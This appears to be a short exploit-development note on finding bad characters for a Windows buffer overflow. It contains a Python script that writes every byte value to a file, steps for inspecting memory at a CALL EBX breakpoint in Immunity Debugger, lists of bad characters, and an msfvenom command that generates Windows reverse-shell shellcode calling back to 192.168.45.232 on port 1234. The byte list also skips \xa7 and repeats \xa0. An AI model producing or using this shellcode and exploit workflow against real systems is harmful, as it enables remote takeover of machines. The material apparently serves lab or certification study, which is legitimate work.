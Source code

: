 # Checking for Bad Characters

```
#!/usr/bin/python
badchars = b""
badchars+=b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars+=b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars+=b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars+=b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars+=b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars+=b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars+=b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars+=b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars+=b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars+=b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars+=b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa8\xa9\xa0\xaa\xab\xac\xad\xae\xaf"
badchars+=b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars+=b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars+=b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars+=b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars+=b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("/var/www/html/exploit.txt","wb")
f.write(badchars)
f.close()
```

Download exploit.txt, put it in the same directory as the binary.

Then, open immunity debugger and open the file. Set a breakpoint at CALL EBX, and then press F9 to run. It will stop once it hits the CALL EBX, and then we can investigate the Hex Dump once we click EBX and follow in dump. Now look for bad characters.

Bad characters:

x00, x0a, x1a, x39, x85, xeb

x00 x0a x0f x1a x5f xcd

x00 x0a x1a x3B xCF

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.232 LPORT=1234 -f py -v shellcode -b "\x00\x0a\x1a\x3b\xcf"
```
